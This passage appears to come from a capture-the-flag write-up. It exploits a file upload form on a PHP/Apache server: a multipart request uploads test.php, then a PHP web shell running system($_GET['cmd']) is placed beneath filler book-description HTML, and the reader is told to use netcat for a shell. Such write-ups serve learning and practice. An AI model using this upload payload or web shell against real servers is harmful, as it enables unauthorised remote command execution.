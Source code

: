 ```sh
Content-Type: text/html


<?php phpinfo();?>
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="task"


test.php
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

We get this as an response :

```sh
HTTP/1.1 200 OK
Date: Tue, 23 Feb 2021 16:37:26 GMT
Server: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1
X-Powered-By: PHP/8.0.1
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 30
Connection: close
Content-Type: text/html; charset=UTF-8


Success. Have a great weekend!
```

![h](https://media.discordapp.net/attachments/490431433559506954/823464698409648169/unknown.png)

OK, now change the phpinfo () to the following, and add html garbage data above to get a shell.

```sh
<?php

system($_GET['cmd']);

?>

<h3>Title: Animal Farm</h3>

<p>Author: George Orwell </p>

<p style="color: red;">Max borrow duration: 8 days</p>

<p>About:<br>Animal Farm is an allegorical novella by George Orwell, first published in England on 17 August 1945. The book tells the story of a group of farm animals who rebel against their human farmer, hoping to create a society where the animals can be equal, free, and happy. </p>
```

Now use netcat to get a shell.
